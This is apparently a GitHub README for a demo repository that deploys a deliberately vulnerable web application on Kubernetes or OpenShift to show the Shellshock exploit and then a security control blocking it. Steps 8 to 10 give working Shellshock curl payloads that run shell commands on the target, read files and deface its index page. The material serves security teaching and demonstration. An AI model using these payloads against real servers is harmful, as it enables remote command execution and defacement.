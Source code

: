 # Insecure Deployment Demo
This repo is intended to host insecure deployments for educational and demo purposes. These should never be run in privileged mode and should avoid use on public networks.

This deployment is based off of public projects such as the Damn Vulerable Web Application and is intended to be used to demo the shellshock exploit in a Kubernetes environment.

# What is shellshock

# Demo Script

### Pre-requisite steps

1. Clone the repository


2. Deploy dvwa.yaml

For OpenShift:
`oc apply -f dvwa.yaml`


For Kubernetes:
`kubectl apply -f dvwa.yaml`

3. Port Forward to the application

*Note: It's important that this is not exposed to the public internet and highly reccomended to never be run in privlegded mode.*

4. Apply the yaml file

`kubectl apply -f dvwa.yaml`

5. Get the pods and copy the pod name for a targeted pod.

`oc get pods -n vulerable -w`

6. Export the pod name for ease of use

`export POD=<insert_pod_name>`

7. Port forward to the pod.
`oc port-forward $POD 8080:80 -n vulerable`

8. Check out the server

`curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'ls /var/'" \
http://localhost:8080/cgi-bin/vulnerable`

9. Check out the index file for apache

`curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /var/www/index.html'" \
http://localhost:8080/cgi-bin/vulnerable`

10. Time to mess with people

`curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1>I like cats - also you should protect your stuff</h1><body><img src=https://miro.medium.com/max/1200/1*7_m4dF9OqBjePqqRyJ1O-g.jpeg></body></html>\" > /var/www/index.html'" http://localhost:8080/cgi-bin/vulnerable`

11. Turn on security controls for proccess baselining

Observe how me messing with people is blocked.
